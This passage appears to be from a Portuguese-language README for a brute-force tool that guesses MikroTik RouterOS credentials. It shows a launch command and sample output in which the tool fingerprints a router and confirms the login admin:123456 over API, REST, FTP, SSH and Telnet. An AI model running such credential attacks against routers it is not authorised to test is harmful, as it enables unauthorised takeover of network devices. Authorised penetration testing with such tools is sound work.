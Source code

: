 ```bash
# Usar configuração YAML
python mikrotikapi-bf-v2.1.py --config config.yaml
```

## 🔍 Exemplos de Saída

### 1. Saída de Sucesso

```
[INFO] Starting MikrotikAPI-BF v2.1
[INFO] Target: 192.168.1.1
[INFO] Loading wordlist: 25 combinations
[INFO] Starting brute force with 5 threads
[FINGERPRINT] Target: 192.168.1.1
[FINGERPRINT] RouterOS Version: 7.8
[FINGERPRINT] Model: RB750
[FINGERPRINT] Risk Score: 7.5/10
[SUCCESS] [API] admin:123456
[SUCCESS] [REST] admin:123456
[VALIDATION] FTP login successful for admin:123456
[VALIDATION] SSH login successful for admin:123456
[VALIDATION] TELNET login successful for admin:123456
[INFO] Found 1 valid credential(s)
[INFO] Exporting results to results/
[INFO] Session completed successfully
```

### 2. Saída com Progress Bar

```
Progress: [████████████████████████████████████████] 100% (25/25)
ETA: 00:01:30 | Speed: 2.5 attempts/sec | Success: 1
[SUCCESS] [API] admin:123456
[SUCCESS] [REST] admin:123456
[VALIDATION] FTP login successful for admin:123456
[VALIDATION] SSH login successful for admin:123456
[VALIDATION] TELNET login successful for admin:123456
```

### 3. Saída de Debug

```
[DEBUG] Trying -> admin:123456
[DEBUG] API connection successful
[DEBUG] REST API connection successful
[DEBUG] FTP validation successful
[DEBUG] SSH validation successful
[DEBUG] TELNET validation successful
[SUCCESS] [API] admin:123456
[SUCCESS] [REST] admin:123456
[VALIDATION] FTP login successful for admin:123456
[VALIDATION] SSH login successful for admin:123456
[VALIDATION] TELNET login successful for admin:123456
```
